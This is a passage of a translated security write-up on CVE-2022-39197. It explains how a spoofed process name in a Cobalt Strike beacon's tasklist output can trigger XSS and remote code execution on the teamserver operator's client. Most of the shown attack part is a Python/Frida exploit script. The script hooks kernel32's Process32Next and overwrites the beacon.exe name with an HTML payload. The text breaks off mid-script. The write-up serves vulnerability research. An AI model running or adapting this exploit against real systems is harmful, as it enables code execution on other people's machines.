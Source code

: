 0x05 Ignore the RCE of the jdk version
--------------------------------------

As explained earlier, the home page is limited by the length of the metadata, and almost only the frame tag can bypass the restriction, and it is impossible to use the frame tag to bypass the jdk1.8 version. So how do we attack? At this time, we have to settle for the next best thing, assuming that the attacker can interact with the beacon and see if RCE can be achieved. The answer is yes. As mentioned earlier, the interaction between beacon and teamserver is roughly divided into two parts: one is the RSA of the online package and the other is the AES issued by the subsequent commands, so we only need to inject data into the AES process issued by the command, then we can Ignore the length limit of metadata and perform RCE. This is very abstract, but it can be practical.

![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAOtaXaWTSbvP4Ugz8AFGRs0vVowQPsqRWia1yaOpSz2UKAj6PHpIbiceZRlsZUt7C0IC5V8jzcA9zdg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

That is to say, except for the list on the home page and the eventlog, the echoes and interactions of all commands are transmitted in AES, so as long as the interface data we can see can be controlled, XSS attacks can be carried out! Here I use the frada script to hook the win api to modify the process name returned by tasklist, and rewrite the process name into the attack payload. When the attacker clicks the beacon to execute the listed process, as long as he browses to the process name with the payload, RCE will be executed. ! The modifications I made on the basis of this project `https://github.com/TomAPU/poc_and_exp/blob/master/CVE-2022-39197/cobaltfire.py` my frada script content is

```
import frida
import time
import argparse


def spoof_user_name(target,url):
    #spawn target process
    print('[+] Spawning target process...')
    pid=frida.spawn(target)
    session=frida.attach(pid)

    js='''
    var payload="<html>beacon.exe            <object classid='xxx.xxx.xxx.xxx'><param 
    payload=Array.from(payload).map(letter => letter.charCodeAt(0))
    
    var Process32Next=Module.findExportByName("kernel32.dll", 'Process32Next')

    Interceptor.attach(Process32Next, {
        onEnter: function(args) {
            //var hProcessSnap=args[0]
            var info=args[1];
            this.info = info;
            //console.log(this.info);
            this.szExeFile=this.info.add(0x24);
            
           // console.log(this.szExeFile);


        },
        onLeave: function(retval) {
        if(Memory.readAnsiString(this.szExeFile) == 'beacon.exe')//当进程名称为beacon时修改其名称，可以替换成其他
        {
            Memory.writeByteArray(ptr(this.szExeFile), payload)
            console.log("find beacon.exe write payload")
        }
        
        
        //console.log(Memory.readAnsiString(this.szExeFile));
        
        
        }
    });
```